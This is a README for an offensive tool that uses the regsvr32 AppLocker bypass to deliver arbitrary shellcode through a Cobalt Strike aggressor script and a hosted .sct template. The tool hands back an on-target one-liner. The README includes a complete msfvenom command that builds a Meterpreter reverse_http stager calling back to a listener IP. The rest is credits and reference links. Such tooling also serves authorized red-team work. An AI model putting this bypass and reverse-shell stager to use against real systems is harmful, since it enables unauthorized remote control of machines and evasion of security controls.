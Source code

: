 # regsvr32

regsvr32 applocker bypass - arbitrary shellcode payload delivery via cobalt strike.  

see the companion blog post at http://atropineal.com/2017/05/20/playing-with-the-regsrv32-applocker-bypass/

files:

* regsvr32.cna: a cobalt strike aggressor script.  give it some shellcode and it'll host the file and supply you with a one-liner to execute on-target
* regsvr32.sct: a template that the aggressor script stuffs the shellcode into before hosting it for download via the one-liner

example shellcode to use (point it at metasploit, armitage or cobalt strike listeners):

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_http LHOST=192.168.56.101 LPORT=80 EXITFUNC=thread -f raw > stager.bin

credits:

* yuri popov: for the dynamic wrapper x dll
* casey smith aka subtee: for the jscript that uses dynamic wrapper x dll, and a means to use it without registration

major reference sources:

* http://www.cyberforum.ru/post5932812.html
* https://gist.githubusercontent.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe/raw/dbb7a6c3cb65fc2fcbb4bcfedc8395b258f9658a/calc.sct
* https://gist.github.com/subTee/353ba45c4f16646d10cdfd79cf9d88c9
* https://gist.github.com/iron9light/1191402
* http://sleep.dashnine.org/manual/
* https://www.cobaltstrike.com/aggressor-script/index.html
